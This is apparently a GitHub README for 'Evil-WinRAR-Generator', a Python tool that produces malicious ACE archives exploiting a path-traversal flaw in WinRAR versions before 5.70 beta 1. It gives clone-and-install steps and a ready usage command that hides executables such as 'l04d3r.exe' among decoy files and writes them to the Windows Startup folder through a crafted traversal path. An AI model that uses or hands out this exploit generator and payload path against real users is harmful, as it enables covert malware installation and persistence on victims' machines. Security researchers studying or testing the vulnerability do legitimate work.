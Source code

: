 # Evil-WinRAR-Generator
[![Python 3.6](https://img.shields.io/badge/python-3.6-yellow.svg)](https://www.python.org/downloads/release/python-360/)
 [![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://raw.githubusercontent.com/master/LICENSE) [![Twitter](https://img.shields.io/badge/twitter-@manulqwerty-blue.svg)](https://twitter.com/manulqwerty) 

Generator of malicious Ace files for WinRAR &lt; 5.70 beta 1

Vulnerability by [research.checkpoint.com](https://research.checkpoint.com/extracting-code-execution-from-winrar/)

**Developed by [@manulqwerty - IronHackers](https://ironhackers.es).**

Usage
----
Help:

`./evilWinRAR.py -h`

Generate a malicius archive:
> Rar filename: evil.rar

> Evil path: C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\

> Evil files: calc.exe , l04d3r.exe

> Good files: hello.txt , cats.jpeg
```bash
./evilWinRAR.py -o evil.rar -e calc.exe l04d3r.exe -g hello.txt cats.jpeg -p 'C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\'
```

Instalation
----
You can download Evil-WinRAR-Generator by cloning the [Git](https://github.com/manulqwerty/Evil-WinRAR-Gen.git) repository:
	
```bash
git clone https://github.com/manulqwerty/Evil-WinRAR-Gen.git
cd Evil-WinRAR-Gen && pip3 install -r requirements.txt
chmod +x evilWinRAR.py
```
	
Evil-WinRAR-Generator works out of the box with [Python](http://www.python.org/download/) version **3.x** on any platform.

Screenshots
----
![Screenshot](https://ironhackers.es/wp-content/uploads/2019/02/2-4.png)
![Screenshot](https://ironhackers.es/wp-content/uploads/2019/02/1-4.png)

Credits
----
https://github.com/droe/acefile

https://github.com/WyAtu/CVE-2018-20250

